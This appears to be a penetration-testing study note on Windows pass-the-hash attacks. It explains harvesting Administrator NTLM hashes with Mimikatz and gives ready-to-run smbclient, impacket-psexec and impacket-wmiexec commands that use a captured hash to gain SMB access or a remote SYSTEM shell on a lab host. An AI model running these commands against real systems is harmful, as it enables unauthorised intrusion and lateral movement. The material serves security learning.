 
If we get access to a user on a system, we can attempt to harvest the Administrator users NTLM hash using Mimikatz to conduct a pass the hash attack to gain root access to local and remote systems.

#### Pass-the-hash

We can use an NTLM hash to authenticate with local or remote targets with valid username and hash.

NTLM hashes are not salted and remain static between sessions.

If we discover an NTLM hash it can be used across multiple systems where the owner/user exists within the system.

The leverage this for code execution - the account needs to have administrative privileges.

If we are not using the local Administrator user we will need to bypass UAC remote restrictions if possible, even for users in the local administrators group.

`smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b` authenticate with smb service as Administrator using NTLM hash

`impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212` utilize hash with psexec to gain remote shell as Administrator - we can append a command to this example, but with it blank it will launch cmd.exe - We will get system user using this method, even if we authenticate with administrator

`impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212` - same as psexec except we get authenticated as the user we used to begin with
